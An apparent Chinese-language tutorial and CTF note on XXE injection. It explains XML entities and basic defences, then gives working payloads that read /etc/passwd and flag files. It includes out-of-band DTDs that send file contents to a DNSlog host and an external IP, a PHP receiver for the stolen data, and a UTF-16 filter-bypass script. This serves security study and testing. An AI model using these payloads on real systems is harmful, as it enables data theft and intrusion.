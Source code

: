 ## **0x01 XML实体：**
实体(ENTITY)：在xml中可给数据取一个变量名，使用时调用变量名即可。
|     |普通/一般实体 |参数实体   |    
| --- | --- | --- | 
|内部定义 |!ELEMENT 实体名 “文本内容”| %实体名    |     
|外部定义(外部实体) |!ELEMENT 实体名 SYSTEM “外部文件/URL” |%实体名     |     
|引用方式 |&实体名 |%实体名    |     
|使用场合 | XML文档任意处，DTD中也可以    |只能在DTD的元素和属性声明中     |    

一般实体使用例子：
```
POST /api/endpoint HTTP/1.1
Host: example.com
Content-Type: application/xml
Content-Length: [实际内容长度]

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE request [
  <!ENTITY name "xxe">
]>
<request>
  <action>get_data</action>
  <parameters>
    <param1>&name;</param1>
    <param2>value2</param2>
  </parameters>
</request>
```

## **0x02 XXE定义：**
XXE发生在应用程序解XML输入时，没有禁止外部实体的加载导致可加载恶意外部文件，造成**文件读取**、内网端口扫描攻击内网网站(SSRF的一种)等。
PS：libxml 2.9.0以后的默认不解析外部实体，现在大多数为2.9.4版本，可测试站长是否开启了解析外部实体。
^
## **0x03 防范XXE：**
1. 禁用外部实体
2. 过滤关键词
        如：<!DOCTYPE <!ENTITY   
        如：SYSTEM

## **0x04 验证测试XXE：**

抓包，POST数据包里出现application/xml，text/xml，数据格式为xml，考虑是否有XXE。

### 1. 有回显XXE文件读取：
验证：修改POST请求数据包，自定义一个**一般的内部实体**，用内部实体即可验证是否存在XXE。
响应会引用实体，会回显“文本内容”，则验证成功。
```
外部实体注入文件读取：
<!ENTITY b SYSTEM "file///etc/passwd">
xml中引用&b

如：
<?xml version="1.0"?>
<!DOCTYPE Mikasa [
<!ENTITY test SYSTEM "file:///etc/passwd">
]>
<soapenv:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchemainstance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" 
xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" 
xmlns:urn="urn:examp <soapenv:Body>les:usernameservice">
 <soapenv:Header/>
 <urn:Username 
soapenv:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/"
>
 <username xsi:type="xsd:string">&test;</username>
 </urn:Username>
 </soapenv:Body>
</soapenv:Envelope>
响应有回显&test;的内容，即/etc/password




php伪协议编码读php源代码等文件:
“php//filter/.../index.php”


读java,go代码：
配合参数实体


请求内网：
读内网段是什么
/proc/net/arp
/etc/hosts
/etc/network/interfaces 高权限读
/proc/net/fib_trie
```

### 2.无回显XXE文件读取：
验证：修改请求数据包，自定义一个**外部实体+DNSlog**验证是否存在XXE。
响应会引用实体，请求DNSlog，DNSlog有记录，则验证成功。
PS：libxml 2.9.0以后的默认不解析外部实体，现在大多数为2.9.4版本，测试是否开启了解析外部实体。
```
无回显用携带进行进行文件读取：

自己服务器上放一个xxe.dtd文件，文件里面定义读文件的实体
该实体的变量作为另一个实体变量的DNSlog的url上参数值
引用，发起请求带出文件读取的内容。
```
xxe.dtd
```
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///etc/passwd">
<!ENTITY % int "<!ENTITY &#37; send SYSTEM 'http://2qytvx.ceye.io/?%file;'>">
```
注入点
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE convert [
  <!ENTITY % remote SYSTEM "http://ip/xxe.dtd">
  %remote; %int; %send;
]>
<convert/>
```

^
^
只验证存在的话：
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
        <!ENTITY % remote SYSTEM "2qytvx.ceye.io/xxe_test">
        %remote;
    ]
>
<root/>
```
get请求url最好全编码，而不是只有url路径编码。
<https://github.com/vulhub/vulhub/tree/master/solr/CVE-2017-12629-XXE>


^
### 3.无回显XXE文件读取：
服务器文件pd.dtd
```
<!ENTITY % all
"<!ENTITY &#x25; send SYSTEM 'http://xxx/xxe.php?q=%file;'>"
>
%all;
```
用php接收
```
# xxe.php
<?php
highlight_file(__FILE__);
$xxe = ($_GET['q']);
$txt = 'flag.txt';
file_put_contents($txt,$xxe,FILE_APPEND)
?>
```
注入点。不需要xml也可以，可用于绕过检测xml。
```
[POST]Payload:

<!DOCTYPE ANY [
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=/flag">
<!ENTITY % dtd SYSTEM "http://xxx/pd.dtd">
%dtd;
%send;
] >
```

^


### 4.无回显XXE文件读取，过滤了http字符：
用python编码绕过
```
import requests

# 过滤了http，还不回显，使用utf-16编码绕过
url = 'http://5ca0be81-2f45-4f3f-8774-94d39b117ffc.challenge.ctf.show/'
data = """<!DOCTYPE ANY [
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=/flag">
<!ENTITY % dtd SYSTEM "http://1.92.88.247/xxe/pd.dtd">
%dtd;
%send;
] >"""

requests.post(url ,data=data.encode('utf-16'))
print("done!")
```


